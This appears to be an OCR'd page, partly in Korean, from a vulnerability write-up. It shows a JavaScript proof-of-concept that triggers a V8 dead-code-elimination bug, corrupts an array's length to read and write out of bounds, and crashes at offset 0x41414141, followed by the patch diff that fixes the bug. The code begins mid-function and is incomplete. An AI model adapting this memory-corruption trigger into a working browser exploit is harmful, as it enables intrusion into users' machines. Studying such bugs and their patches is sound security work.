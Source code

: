  ```jsx
    var z = arg1.x;
    // new arr length
    arg1.val = -1;
    int8arr [ 1500000000 ] = 22 ;
    async function f2 ( ) {
      const nothing = {} ;
      while ( 1 ) {
        //print("in loop");
        if ( abc1 | abc2 ) {
          while ( nothing ) {
            await 1 ;
            print(abc3);
          }
        }
      }
    }
    f2 ( ) ;
  }
  
  var arr = new Array(10);
  arr[0] = 1.1;
  
  var i;
  // this may optimize and deopt, that's fine
  for (i=0; i < 20000; i++) {
      f(A,0);
      f(B,0);
  }
  // this will optimize it and it won't deopt
  // this loop needs to be less than the previous one
  for (i=0; i < 10000; i++) {
      f(A,41);
      f(B,41);
  }
  
  // change the arr length
  f(arr,0);
  
  print("LENGTH: " + arr.length);
  
  print("value at index 12: " + arr[12]);
  
  // crash
  print("crash writing to offset 0x41414141");
  arr[0x41414141] = 1.1;
  ```

- 패치

  - [dead-code-elimination.cc](http://dead-code-elimination.cc)

    ```diff
    <   if (FindDeadInput(node) != nullptr) {
    ---
    >   // Terminate nodes are not part of actual control flow, so they should never
    >   // be replaced with Throw.
    >   if (node->opcode() != IrOpcode::kTerminate &&
    >       FindDeadInput(node) != nullptr) {
    ```

---